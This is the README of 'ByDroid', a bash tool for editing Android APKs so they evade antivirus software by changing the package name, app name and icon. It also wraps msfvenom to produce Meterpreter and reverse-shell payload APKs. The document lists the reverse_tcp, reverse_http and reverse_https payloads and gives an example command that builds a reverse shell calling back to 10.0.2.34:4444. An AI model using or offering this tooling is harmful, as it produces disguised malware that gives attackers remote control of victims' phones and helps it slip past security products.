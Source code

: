 # ByDroid
A simple bash script for edit Android APK files and evade AVs changing the package

## Usage
```
bydroid.sh [OPTIONS] package [file]
OPTIONS:
  -h, --help          show help message
  -g, --generate      generate an apk with msfvenom (requires: -P, -l, -p)
  -P, --payload       set the payload for msfvenom (see below)
  -l, --lhost         set the lhost for msfvenom payload
  -p, --port          set the port for msfvenom payload
  -n, --name          change the app name
  -i, --icon          change the app icon
  -o, --output        select the output file
```

The `package` parameter means the new package for the app.

The `file` parameter is the input file to patch (ignored when use `-g`).

### Payloads
```
android/meterpreter/reverse_http
android/meterpreter/reverse_https
android/meterpreter/reverse_tcp
android/shell/reverse_http
android/shell/reverse_https
android/shell/reverse_tcp
```

## Dependencies
- msfvenom            (_only when use `-g`_)  https://github.com/rapid7/metasploit-framework
- apktool                                     https://ibotpeaches.github.io/Apktool/
- d2j-apk-sign                      

_All of them included in Kali Linux_

## EXAMPLES

`bydroid.sh com.new.package app.apk`

Changes the package of `app.apk` to `com.new.package` and gives an output file `out.apk`

`bydroid.sh com.new.package app.apk -o edited.apk -n "New Name" -i ~/images/icon.png`

Changes the package to `com.new.package`, the name of the app to `New Name` and the icon with the selected image, and gives the output file `edited.apk`

`bydroid.sh com.new.package -g -P android/shell/reverse_tcp -l 10.0.2.34 -p 4444 -o payload.apk`

Generates a payload `android/shell/reverse_tcp` which connects to `10.0.2.34:4444` and gives the output file `payload.apk`


